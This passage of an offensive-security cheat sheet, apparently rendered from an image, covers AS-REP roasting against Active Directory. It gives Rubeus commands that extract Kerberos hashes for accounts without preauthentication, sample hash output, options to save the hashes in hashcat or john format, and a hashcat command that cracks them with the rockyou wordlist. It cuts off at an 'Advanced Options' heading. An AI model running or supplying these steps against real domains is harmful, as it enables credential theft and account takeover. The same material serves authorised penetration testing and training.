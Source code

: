 
## 2. AS-REP Roasting

### Basic AS-REP Roasting

**When:** Looking for users with "Do not require Kerberos preauthentication" enabled

```powershell
# Find and roast all vulnerable users
Rubeus.exe asreproast

# Output:
# [*] Action: AS-REP roasting
# [*] Target Domain: corp.local
# 
# [*] SamAccountName         : vulnerable-user
# [*] DistinguishedName      : CN=Vulnerable User,OU=Users,DC=corp,DC=local
# [*] Using domain controller: DC01.corp.local
# [*] Hash                   : $krb5asrep$23$vulnerable-user@corp.local:ABC123...
```

---

### Save to File

```powershell
# Hashcat format
Rubeus.exe asreproast /format:hashcat /outfile:asrep-hashes.txt

# John format  
Rubeus.exe asreproast /format:john /outfile:asrep-hashes.txt
```

**Crack:**
```bash
# On Kali
hashcat -m 18200 asrep-hashes.txt /usr/share/wordlists/rockyou.txt
```

---

### Target Specific User

```powershell
# Check specific user
Rubeus.exe asreproast /user:vulnerable-user

# Check list of users
Rubeus.exe asreproast /user:user1,user2,user3
```

---

### Advanced Options
